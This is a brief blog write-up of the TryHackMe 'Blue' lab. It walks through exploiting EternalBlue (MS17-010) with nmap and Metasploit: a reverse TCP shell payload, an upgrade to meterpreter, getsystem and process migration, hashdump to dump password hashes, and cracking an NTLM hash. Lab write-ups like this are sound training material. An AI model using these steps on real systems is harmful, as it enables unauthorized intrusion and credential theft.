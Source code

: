 ```yaml
---
layout: blog
title: THM Blue Writeup
publishDate: 2023-12-02T23:15:00.000Z
description: test
tags:
  - tryhackme
  - writeup
---
```

EternalBlue is a computer exploit developed by the U.S. National Security Agency (NSA). It was leaked by the Shadow Brokers hacker group on April 14, 2017, one month after Microsoft released patches for the vulnerability.
[EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)

## Task 1

Scan all open ports for vulnerabilities using Nmap.

```sh
nmap -sV -vv --script vuln TARGET_IP -oN nmap/blue
```

## Task 2

Run Metasploit. Search for MS17-010 exploits and select the appropriate one. Set RHOSTS to the target's IP address.

```
set payload windows/x64/shell/reverse_tcp
```

Run the exploit to get shell access. 

## Task 3
To upgrade the shell to meterpreter, first background the shell (Ctrl+Z). Check the session ID using `sessions` command. 
Note the session ID and run:
```
sessions -u <session-id>
```
This command should use the post module `post/multi/manage/shell_to_meterpreter` to upgrade the selected session.

Verify that we have escalated to `NT AUTHORITY\SYSTEM`. Run `getsystem` to confirm this.

![[Pasted image 20231202152543.png]]


Migrate to this process using the `migrate PROCESS_ID` command, where process ID can be any process running on `NT AUTHORITY\SYSTEM`. List all processes by running `ps`.

![[Pasted image 20231202153037.png]]

## Task 4
Within our elevated meterpreter shell, run the command `hashdump`. This will dump all of the passwords on the machine as long as we have the correct privileges to do so.

![[Pasted image 20231202153220.png]]

To crack the password of user 'Jon', extract the NTLM hash and use [CrackStation](https://crackstation.net/) 
